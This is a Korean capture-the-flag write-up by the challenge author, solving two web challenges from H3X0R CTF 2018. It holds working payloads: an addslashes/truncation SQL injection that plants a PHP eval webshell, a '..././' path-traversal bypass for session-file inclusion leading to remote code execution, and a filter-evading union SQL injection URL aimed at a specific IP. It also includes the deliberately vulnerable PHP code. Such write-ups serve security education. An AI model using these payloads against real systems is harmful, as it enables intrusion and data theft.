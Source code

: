 # H3X0R CTF 2018 - Web Write-up

```
H3X0R CTF 2018 - goodaegi board, sqlgame revenge
Written by Siwoo Mun (munsiwoo)
```

## goodaegi board (490pts) - solver (1)

goodaegi board는 sql injection과 lfi, php 세션을 이용한 rce문제다.  
의도한 풀이는 sql injection으로 php 코드를 username에 넣어서 가입한 뒤  
가입한 계정으로 로그인해 lfi로 해당 계정의 세션을 포함시켜 rce로 flag.php를 읽어오는걸 의도했다.
  
자세한 풀이는 아래를 참고하자.  
  
--------------------------------
### SQL Injection

``classes/user.class.php`` 에 있는 user_join function에서 sql injection이 발생한다.

```php
public function user_join($user) {
	$user = array_map('addslashes', $user); // anti sql injection
	$nickname = substr($user['nickname'], 0, 100); // anti sql truncate attack
	$username = substr($user['username'], 0, 100); // anti sql truncate attack
	$password = sha1(md5($user['password']));

	if($message = $this->check_names($nickname, $username)) { // call name check function
		return $message;
	}

	$query = "insert into users values ('{$nickname}', '{$username}', '{$password}');";
	$this->query($query) or die($query);

	return false;
}
```

위 소스의 두 번째 줄부터 네 번째 줄을 보면 sql injection방지를 위해 addslashes를 거치고
그 다음 줄에서 sql truncate attack을 방지한다며 문자열을 100자로 자르고 있다.  
  
addslashes를 거치기 때문에 이 코드가 안전하다고 생각할 수 있겠지만 아래와 같이 공격이 가능하다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1)#
```

공격이 가능한 이유는 'a' * 99 뒤에 single quote가 붙었을 때 addslashes를 거치면서 앞에 backslashes(\)가 붙고  
'a' * 99 + backslashes + single quote가 되면서 single quote가 잘리게 된다.  
  
즉 query는 아래와 같은 꼴이 된다.  
  
``insert into users values ('aaaaaaaa\', '<inject point>', '<hash>');``

이제 여기서 username에 php 코드를 넣어주고 가입하면 된다.  

```
nickname : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\
username : ,1,1),(1,0x3c3f206576616c28245f4745545b785d293b3f3e,sha1(md5(0x61)))#
```
> Login  
username : ``<? eval($_GET[x]);?>``  
password : ``a``  

---------------------------------------------
### PHP SESSION to RCE

session to rce의 간단한 예시를 들어보면  
php에서 로그인을 구현할 때 로그인에 성공하면 보통 아래와 같이 세션을 처리한다.

```php
<?php
session_start();
... (생략)
if(isset($fetch['username'])) { // 유저가 존재한다면
	$_SESSION['username'] = $fetch['username']; // 세션 할당
}
```

만약 여기서 ``$fetch['username']`` 변수에 ``<?php phpinfo(); ?>`` 가 들어가면 어떻게 될까?  
세션 파일에 들어가는 내용이 ``username|s:19:"<?php phpinfo(); ?>";`` 이렇게 될 것이다.  
우분투 기준 PHP 세션은 기본적으로 ``/var/lib/php/sessions/`` 에 저장되며 어느 계정이든 접근이 가능한 디렉토리다.  
또한 저장되는 세션 파일명도 일정한 규칙이 있어서 알아낼 수 있기 때문에 PHP코드가 포함된 세션을 inclusion한다면 RCE가 가능하다.  

* 세션 파일명 : ``sess_[random_string]`` 여기서 ``[random_string]``은 클라이언트가 가지고 있는 PHPSESSID 값이다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0;`` => ``sess_fqs54b8ies3uhuhlttlb3lq3d0``
  
단, 회원 가입에서 ``<, >`` 를 막아놨기 때문에 위에서 설명한 sql injection을 활용해서 넣어줘야 한다.

--------------------------------------------
### LFI (session inclusion)
이제 세션에 php 코드를 넣는데 성공했다.  
lfi는 ``?p=home.html`` 여기 p 파라미터에서 발생하는데 p 파라미터는 ``secure_page`` 함수를 거친다.  
해당 함수는 ``config/function.php`` 에서 확인할 수 있다.

```php
function secure_page($page) { // anti hack
	$page = strtolower(trim($page)); // 안봐도 됨
	$page = str_replace(chr(0), '', $page); // 안봐도 됨
	$page = str_replace('../', '', $page); // '../' 지우기
	if(substr($page, -4, 4) == 'html') { // 확장자가 html인지 체크
		return $page;
	} 
	die('403 forbidden.');
}
```
우선 4 번째 줄을 보면 ``../`` 를 없애고 있다, ``..././`` 이렇게 바꿔주면 가운데 ``../``가 없어지면서 ``../`` 가 된다.  
그 다음, 세션은 사용자가 이름을 임의로 바꿀 수 있기 때문에 세션의 맨 뒷자리 4자를 ``html``로 바꾸면 된다.  
ex) ``PHPSESSID=fqs54b8ies3uhuhlttlb3lq3d0html``  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html``  
  
rce가 성공적으로 되는걸 확인했다면, flag.php를 읽으면 된다.  
  
``?p=..././..././..././..././..././var/lib/php/sessions/fqs54b8ies3uhuhlttlb3lq3d0html&x=echo file_get_contents('flag.php');``

## sqlgame revenge (480pts) - solver (2)

노말한 sql injection challenge다.

```php
<?php
error_reporting(0);
require_once 'config.php';

/*************************

 made by munsiwoo
 sqlgame-revenge

 sqlgame_revenge table structure :
 create table sqlgame_revenge (
	 username varchar(100),
	 password varchar(100)
 ) default charset=utf8;

**************************/

isset($_GET['username'], $_GET['password']) or view_source();

$conn = mysqli_connect('', __USER__, __PASS__, 'hahahoho');
$conn or die('sql server down.');

$username = substr($_GET['username'], 0, 400);
$password = substr($_GET['password'], 0, 400);

$filter  = "'|\"|x|b|y|substr|left|right|char|hex|md|sha|compress|mysql|blog";
$filter .= "|=|like|regexp|if|case|sleep|benchmark|munsiwoo|user|where|strcmp";
$filter .= "|column|table|load|file|view|sys|global|rand|innodb|space|mid|name";

(!preg_match("/{$filter}/is", $username.chr(32).$password)) or die('403 forbidden.');
(!preg_match("/password/i", $username)) or die('403 forbidden.');
(!(substr_count($username.$password, '(') > 25)) or die('403 forbidden.');

$query = "select * from sqlgame_revenge where username='{$username}' and password='{$password}'";
$query = mysqli_query($conn, $query) or die('syntax error.');
$fetch = mysqli_fetch_assoc($query) or die('user not found.');
$fetch = array_map('strtolower', $fetch);

(strtolower($fetch['username']) == 'munsiwoo') or die('who are you?');
(strtolower($fetch['password']) ==  $password) or die('pw incorrect!');

show_flag();

```

payload
```
http://18.216.25.52/7b9b9b1e52a8f5fcff220094034b9390/?username=\&password=||0%20union%20select%20concat(insert(encode(950358551,464374247),1,6,lpad(0,0,0)),insert(insert(encode(1366430893,867605427),1,4,lpad(0,0,0)),3,6,lpad(0,0,0)),insert(insert(insert(encode(546815368,1734964794),1,4,lpad(0,0,0)),1,1,lpad(0,0,0)),4,1,lpad(0,0,0))),(select%20insert(insert(info,1,63,lpad(0,0,0)),367,1,lpad(0,0,0))%20from%20information_schema.processlist%20limit%200,1)%23
```
